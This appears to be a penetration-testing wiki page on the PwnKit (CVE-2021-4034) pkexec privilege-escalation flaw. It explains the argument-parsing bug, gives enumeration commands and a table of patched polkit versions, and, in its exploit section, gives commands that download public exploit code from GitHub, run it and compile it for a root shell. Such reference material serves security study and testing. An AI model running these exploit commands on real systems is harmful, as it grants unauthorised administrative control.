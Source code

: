 ```yaml
---
description: CVE-2021-4034
---
```


# PwnKit

## Theory

CVE-2021-4034 (pwnkit) was discovered by researchers at [Qualys](https://www.qualys.com/). The vulnerability has existed in every version of the "Policy Toolkit" (or, Polkit) package **since it was first released in 2009** and allows any unprivileged attacker to easily obtain full administrative access over any Linux machine with the Polkit package installed. **Polkit is installed by default on most distributions of Linux**, making this vulnerability _extremely_ widespread. The Pwnkit vulnerability exists in the pkexec utility. The pkexec command is used by authorized users to execute commands at elevated privileges (like using sudo).

**Pkexec** attempts to parse any command-line arguments that we pass it using a for-loop, starting at the index 1 to offset the name of the program and obtain the first real argument. The name of the program is irrelevant to argument parsing, so the indexing is simply offset to ignore it. But if we don't provide any arguments, the index is permanently set to 1. This becomes a problem later when pkexec attempts to write to the value of the argument at index n. As there are no command-line arguments, there is no argument at index n — instead the program overwrites the next thing in memory, which just so happens to be the first value in the list of environment variables when the program is called using a C function called execve(). In other words, by passing pkexec a null list of arguments, we can **force it to** **overwrite an environment variable** instead! - [TryHackMe](https://tryhackme.com/room/pwnkit)

## Practice

{% tabs %}
{% tab title="Enumeration" %}
To make the PwnKit exploit working. The SUID bit on the pkexec binary must be set

```bash
$ find / -type f -name *pkexec* -perm -4000 2>/dev/null
/usr/bin/pkexec
```

Check if the policykit package is vulnerable

```bash
#Debian/Ubuntu
apt list --installed | grep -i polkit

#RHEL/CentOs/Fedora
rpm -qa | grep -i polkit

#SUE
zypper search -i polkit

#Oracle Linux
pkginfo | grep -i polkit
```

Here is a summary table of patched versions by OS. Earlier versions are vulnerable

| OS Version                                  | Patched version                     |
| ------------------------------------------- | ----------------------------------- |
| CentOS 7                                    | polkit-0.112-26.el7\_9.1            |
| CentOS 8                                    | polkit-0.115-13.el8\_5.1            |
| Debian 9                                    | policykit-1\_0.105-18+deb9u2        |
| Debian 10                                   | policykit-1\_0.105-25+deb10u1       |
| Debian 11                                   | policykit-1\_0.105-31+deb11u1       |
| Oracle Linux 6                              | polkit-0.96-11.0.1.el6\_10.1        |
| Oracle Linux 7                              | polkit-0.112-26.0.1.el7\_9.1        |
| Oracle Linux 8                              | polkit-0.115-13.0.1.el8\_5.1        |
| SUSE Linux Enterprise Server 12             | polkit-debugsource-0.113-5.24.1     |
| SUSE Linux Enterprise Server 15 LTSS et SP1 | polkit-debugsource-0.116-3.6.1      |
| SUSE Linux Enterprise Server 15 SP2         | polkit-debugsource-0.114-3.15.1     |
| Red Hat 6                                   | polkit-0.96-11.el6\_10.2            |
| Red Hat 7                                   | polkit-0.112-26.el7\_9.1            |
| Red Hat 8                                   | polkit-0.115-13.el8\_5.1            |
| Ubuntu 18.04                                | policykit-1-0.105-20ubuntu0.18.04.6 |
| Ubuntu 20.04                                | policykit-1-0.105-26ubuntu1.2       |
| Ubuntu 21.10                                | policykit-1-0.105-31ubuntu0.1       |
| Fedora 34                                   | polkit-0.117-3.fc34.2               |
| Fedora 35                                   | polkit-0.120-1.fc35.1               |
| Anolis OS 7                                 | polkit-0.112-26.an7.1               |
| Anolis OS 8                                 | polkit-0.115-13.an8\_5.1            |
| Alibaba Cloud Linux 2                       | polkit-0.112-26.3.al7.1             |
| Alibaba Cloud Linux 3                       | polkit-0.115-13.al8.1               |
{% endtab %}

{% tab title="Exploit" %}
We can use [this exploit](https://github.com/ly4k/PwnKit) made by ly4k. It should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
#Run the exploit
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit        # interactive shell
./PwnKit 'id'   # single command

# Or you may want to compile it by yourself
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Alternativly, we can use [this exploit](https://github.com/arthepsy/CVE-2021-4034) made by arthepsy

```bash
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
./cve-2021-4034-poc
```
{% endtab %}
{% endtabs %}

## Ressource

{% embed url="https://ine.com/blog/exploiting-pwnkit-cve-20214034" %}

{% embed url="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034" %}

{% embed url="https://tryhackme.com/room/pwnkit" %}

{% embed url="https://cyberwatch.fr/cve/cve-2021-4034/" %}
